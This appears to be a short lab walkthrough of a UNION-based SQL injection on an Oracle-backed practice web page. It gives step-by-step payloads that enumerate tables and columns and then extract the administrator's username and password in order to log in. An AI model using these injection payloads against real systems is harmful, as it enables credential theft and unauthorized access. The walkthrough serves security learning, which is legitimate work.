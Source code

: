 We see a vulnerbale webpage where we perform SQL Injection attack to list the contents on Oracle

![image](https://user-images.githubusercontent.com/65653010/235329927-cca02d81-7eaf-48ea-93af-b6a5795f5a63.png)


![image](https://user-images.githubusercontent.com/65653010/235329967-689ed978-599d-4dbb-bbe1-7b0172f89759.png)

Now we perform a query to get the table

SELECT * FROM someTable WHERE category='Gifts' UNION SELECT table_name, null from all_tables--'`

![image](https://user-images.githubusercontent.com/65653010/235330021-edaac355-cf15-45ad-8022-bd3cb22f0c33.png)

Now we perform a query to retrieve the columns of the users table

SELECT * FROM someTable WHERE category='Gifts' UNION SELECT column_name, null from all_tab_columns WHERE table_name = ''

![image](https://user-images.githubusercontent.com/65653010/235330184-4ec57556-6bcb-4358-abf4-7de1b725e7e5.png)

![image](https://user-images.githubusercontent.com/65653010/235330165-8c728f0e-b732-4040-ac07-fe612063bccb.png)

Now we perform this query to get the username and password the administrator

SELECT * FROM someTable WHERE category='X' UNION SELECT (username column), (password column) from (users table)--'

![image](https://user-images.githubusercontent.com/65653010/235330282-2448cb8e-5203-4c21-bb2c-f79fc7783318.png)

From the information we get username and password of administrator, we login into account

![image](https://user-images.githubusercontent.com/65653010/235330296-f13b1f95-88f1-4c12-b4e9-6c887b49ec31.png)


